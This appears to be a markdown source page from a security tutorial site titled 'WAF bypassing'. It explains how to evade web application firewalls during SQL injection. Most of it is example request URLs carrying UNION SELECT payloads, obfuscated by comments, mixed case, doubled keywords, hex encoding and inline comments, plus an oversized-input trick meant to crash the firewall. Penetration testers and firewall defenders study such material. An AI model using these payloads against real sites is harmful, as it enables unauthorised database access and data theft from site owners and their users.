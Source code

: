 ```yaml
---
title: WAF bypassing
date: 2024-02-01 12:32
categories: [WEB, ATTACK]
tags: [WAF]
---
```


How to know if there is a Web Application Firewall?  
  
This is pretty simple! When you try to enter a command used for SQL Injections (usually the "UNION SELECT" command), you get an 403 Error (and the website says "Forbidden" or "Not Acceptable").  
**Example:**  
```sql
http://www.site.com/index.php?page_id=-15 UNION SELECT 1,2,3,4....   
(We get a 403 Error!)
```

---
  
## Basic/Simple Methods:  
  
First, of course, we need to know the Basic Methods to bypass WAF...  
### 1. Comments

You can use comments to bypass WAF:  
```sql
http://www.site.com/index.php?page_id=-15 /*!UNION*/ /*!SELECT*/ 1,2,3,4.... (First Method that can Bypass WAF)
```

Most WAF will identify this method so they still show a "Forbidden" error...  
  
### 2. Change the Case of the Letters:  

You can also change lower/upper case:
```sql
http://www.site.com/index.php?page_id=-15 uNIoN sELecT 1,2,3,4....   (Another Basic Method to Bypass WAF!)
```

However, as before, this trick is also detected by most WAF!  
  
### 3. Combine the previous Methods:  

What you can also do is to combine the previous two methods:  
```sql
http://www.site.com/index.php?page_id=-15 /*!uNIOn*/ /*!SelECt*/ 1,2,3,4....
```
 
  
### 4. Replaced Keywords:  

Some Firewalls remove the "UNION SELECT" Statement when it is found in the URL. We can use this to our advantage.
```sql
http://www.site.com/index.php?page_id=-15 UNIunionON SELselectECT 1,2,3,4....   
(The "union" and the "select" will be removed, so the final result will be: "UNION SELECT")
```
 
### 5. Inline Comments:  

Some firewalls get bypassed by Inserting Inline Comments between the "Union" and the "Select" Commands:  
```sql
http://www.site.com/index.php?page_id=-15 %55nION/**/%53ElecT 1,2,3,4...   (The %55 represents "U" and %53 represents "S")
```

---

  
## Advanced Methods:  

### 1. Buffer Overflow / Firewall Crash:  

Many Firewalls are developed in C/C++ and we can try and crash them using Buffer Overflows.

```sql
http://www.site.com/index.php?page_id=-15+and+(select 1)=(Select 0xAA[..(add about 1000 "A")..])+/*!uNIOn*/+/*!SeLECt*/+1,2,3,4....      
(( You can test if the WAF can be crashed by typing:  
?page_id=null%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/+1,2,3,4....      
If you get a 500, you can exploit it using the Buffer Overflow Method)
```

### 2. Replace Characters with their HEX Values:  

We can replace some characters with their HEX (URL-Encoded) Values.  

```sql
http://www.site.com/index.php?page_id=-15 /*!u%6eion*/ /*!se%6cect*/ 1,2,3,4....
```

### 3. Use other Variables or Commands instead of the common ones for SQLi:  

Apart from the "UNION SELECT" other commands might be blocked.  
Common Commands Blocked:  

```sql
COMMAND  |  WHAT TO USE INSTEAD  

@@version  |  version() 
concat()   |  concat_ws()       
group_concat() | concat_ws()      
```

Learning MySQL Really helps on such issues!  
  
### 4. Misc Exploitable Functions:  

Many firewalls try to offer more Protection by adding Prototype or Strange Functions. These can be used to our advantage in some cases. :  
Example:  
Let's say the firewall replaces `*` with Whitespaces.  

```sql
http://www.site.com/index.php?page_id=-15+uni*on+sel*ect+1,2,3,4...   
(After the firewall is done formatting, the result will be: 15+union+select....)
```

